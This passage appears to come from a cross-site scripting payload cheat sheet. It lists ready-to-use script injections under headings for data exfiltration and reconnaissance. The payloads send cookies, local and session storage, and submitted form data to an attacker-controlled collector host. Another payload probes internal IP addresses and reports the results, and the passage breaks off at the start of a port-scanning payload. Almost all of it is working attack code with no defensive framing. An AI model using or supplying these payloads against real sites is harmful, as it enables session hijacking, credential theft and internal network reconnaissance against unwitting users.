```javascript
```

### Data Exfiltration Payloads
```javascript
// Cookie extraction
"><script>
fetch('https://yoursubdomain.xss.ht/collect', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({
        cookies: document.cookie,
        localStorage: JSON.stringify(localStorage),
        sessionStorage: JSON.stringify(sessionStorage),
        url: window.location.href
    })
});
</script>

// Form data harvesting  
"><script>
document.querySelectorAll('form').forEach(form => {
    form.addEventListener('submit', function(e) {
        var formData = new FormData(form);
        var data = {};
        for(var pair of formData.entries()) {
            data[pair[0]] = pair[1];
        }
        fetch('https://yoursubdomain.xss.ht/forms', {
            method: 'POST',
            body: JSON.stringify(data)
        });
    });
});
</script>
```

### Advanced Reconnaissance
```javascript
// Network scanning payload
"><script>
var targets = ['192.168.1.1', '10.0.0.1', '172.16.0.1'];
var results = [];

targets.forEach(target => {
    var img = new Image();
    img.onload = () => results.push({host: target, status: 'up'});
    img.onerror = () => results.push({host: target, status: 'down'});
    img.src = 'http://' + target + '/favicon.ico?' + Math.random();
    
    setTimeout(() => {
        fetch('https://yoursubdomain.xss.ht/scan', {
            method: 'POST',
            body: JSON.stringify(results)
        });
    }, 5000);
});
</script>

// Port scanning
"><script>
var ports = [21, 22, 23, 25, 53, 80, 110, 143, 443, 993, 995];
var host = '192.168.1.100';
var results = [];
```